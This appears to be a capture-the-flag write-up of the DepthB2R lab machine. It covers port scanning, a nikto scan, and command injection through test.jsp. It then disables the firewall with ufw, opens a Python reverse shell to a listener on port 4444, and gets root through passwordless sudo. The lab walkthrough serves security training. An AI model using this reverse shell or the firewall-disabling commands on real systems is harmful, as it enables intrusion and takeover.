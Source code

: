 ```yaml
---
title: DepthB2R
categories: [Proving Grounds, Play]
tags: [Firewall Disable, Recon, nikto, PrivEsc, Command Injection]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*fiNtXsFnX5MR7BPQV_wBvg.png
  alt:  DepthB2R Machine 🖥️
---
```



### Lets check the IP address → 

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled.png)

```bash
IP : 10.0.2.44
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/DepthB2R]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.44
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 11:29 IST
Nmap scan report for 10.0.2.44
Host is up (0.00079s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-title: Apache Tomcat
MAC Address: 08:00:27:FC:6B:6D (Oracle VirtualBox virtual NIC)
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%201.png)

Now after directory traversal though `Feroxbuster` Tool I got these files and directories →

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%202.png)

Now lets load the directory /manager/ ➡️

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%203.png)

Now while nikto scan I got a file > `test.jsp` →

```bash
Nikto.txt
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/DepthB2R]
└─$ nikto -h http://10.0.2.44:8080/ -o nikto.txt -C all
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.0.2.44
+ Target Hostname:    10.0.2.44
+ Target Port:        8080
+ Start Time:         2023-05-04 11:51:21 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS .
+ HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /: Appears to be a default Apache Tomcat install.
+ /manager/html: Default Tomcat Manager / Host Manager interface found.
+ /test.jsp: This might be interesting.
+ /manager/status: Default Tomcat Server Status interface found.
+ 26792 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2023-05-04 11:53:28 (GMT5.5) (127 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%204.png)

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%205.png)

Now lets see inside the home which user is there →

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%206.png)

> User : bill , So lets **disable the firewall** so that I can execute my reverse shell command through ssh.
{: .prompt-info }

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%207.png)

command : `sudo ufw disable` to disable the firewall but I have to use ssh bill@localhost first so that it can be executed .

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%208.png)

Now lets start the listener port 4444 with nc and then execute the payload for reverse shell .

```bash
payload :
ssh bill@localhost python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
{: .nolineno}
{: .nolineno}

In response I got this ➡️

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%209.png)

Lets see how bill can lead us to root →

```bash
bill@b2r:~$ sudo -l
sudo -l
Matching Defaults entries for bill on b2r:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bill may run the following commands on b2r:
    (ALL : ALL) NOPASSWD: ALL
bill@b2r:~$
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%2010.png)

Now I am root →

```bash
root@b2r:/root# cat flag
cat flag
flag{WellThatWasEasy}
root@b2r:/root#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }